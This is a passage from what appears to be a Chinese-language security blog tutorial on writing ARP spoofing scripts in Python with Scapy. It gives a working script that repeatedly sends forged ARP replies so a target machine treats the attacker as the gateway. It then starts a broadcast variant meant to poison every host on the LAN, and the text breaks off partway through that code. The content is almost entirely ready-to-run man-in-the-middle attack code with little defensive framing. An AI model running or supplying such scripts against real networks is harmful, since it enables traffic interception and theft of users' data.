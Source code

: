 ## 编写脚本

**1.demo**

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

from scapy.all import (
    get_if_hwaddr,
    getmacbyip,
    Ether,
    ARP,
    sendp)

def arp_spoof(target,host,iface):
    # target 目标机ip
    # host   伪装的ip
    mac_self = get_if_hwaddr(iface)
    mac_target = getmacbyip(target)
    try:
        while 1 :
            sendp(Ether(src=mac_self,dst=mac_target)/
                  ARP(hwsrc=mac_self,hwdst=mac_target,psrc=host,pdst=target,op=2))

    except KeyboardInterrupt: #捕获Ctrl + C
            print('\n[+]Stopped poison')

if __name__ == '__main__':
    target = '10.35.71.205'
    host = '10.35.71.254'
    iface = 'eth0'
    arp_spoof(target,host,iface)
```

运行演示

![mark](http://cdn.youyouorz.top/blog/img/20190428/iojr5qsxTu4R.png?imageslim)

**2.添加广播式的arp欺骗**

这对局域网所有主机的进行欺骗,所有主机都会以为攻击机为网关

```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

from scapy.all import (
    get_if_hwaddr,
    getmacbyip,
    Ether,
    ARP,
    sendp)

def arp_spoof(target,host,iface):
    # target 目标机ip
    # host   伪装的ip

    mac_self = get_if_hwaddr(iface)

    
    if target:
        mac_target = getmacbyip(target)
        packet = Ether(src=mac_self, dst=mac_target) /\
        				 ARP(hwsrc=mac_self, hwdst=mac_target, psrc=host, pdst=target, op=2)
        print('[+]Poisoning --> ', target, end=' ')
```